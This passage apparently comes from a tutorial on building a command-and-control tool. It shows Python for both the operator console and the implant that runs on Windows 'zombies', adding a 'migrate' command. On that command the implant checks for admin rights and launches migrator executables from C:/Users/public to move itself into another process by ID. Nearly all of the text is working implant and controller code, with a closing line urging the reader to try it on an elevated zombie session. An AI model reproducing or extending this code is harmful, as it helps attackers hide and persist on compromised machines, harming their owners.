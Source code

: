 ```python
if choice == "migrate":
            try:
                print("What's the process ID of the target process you'd like to migrate into?")
                print("(If in a non-admin shell, just enter any number to proceed)")
                procID = input(":")
                print("procID: ", procID)
                msg1 = f":migrate:{procID}\n" 
                clientlist[selection][1].send(msg1.encode('utf-8'))
                #print(Fore.GREEN + "[+] Initiating migration process now!" + Fore.WHITE)
                migrationstatus=clientlist[selection][1].recv(1024)
                migrationstatus = migrationstatus.decode('UTF-8')
                print(migrationstatus)
                if "newly" in migrationstatus:
                    return
                migrationstatus=clientlist[selection][1].recv(1024)
                migrationstatus = migrationstatus.decode('UTF-8')
                print(migrationstatus)
                time.sleep(4)
            except:
                print(Fore.RED + "[!] there was an error sending the msg to the zombie...\ncheck to see if your zombie died" + Fore.WHITE)
                time.sleep(2)
```

> **Client / Implant code**

```python
if ":migrate:" in data:
            try:
                if str(shell.IsUserAnAdmin()) == "False":
                    client.send(b"You're not running in an elevated shell so we can't migrate into an existing process.  Creating a process for you to migrate into.  If all goes well you should have a shell soon in the newly created process!\n")
                    proc = subprocess.Popen("C:/Users/public/migrator.exe", stdin=subprocess.PIPE, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
                client.send(b"Initiating migration now!\n")
                procID = data.split(":")
                procID = procID[2]
                print("received procID: ", procID)
                proc = subprocess.Popen(["C:/Users/public/migrator2.exe", procID],
                stdin=subprocess.PIPE,
                stdout=subprocess.PIPE,
                stderr=subprocess.PIPE)
                client.send(b"returned output: \n"+proc.stdout.read()+proc.stderr.read())
                #client.send(b"[+] Sleeping for 7 seconds and wrapping things up!  You should be migrated into another process now!\n")
                time.sleep(7)
            except:
                print("some error occurred...")
```

Okay, I think that should do it!  Let's go ahead and navigate into an elevated session in our Zombie list and then check out our commands.  We're going to want to use the `migrate` command:
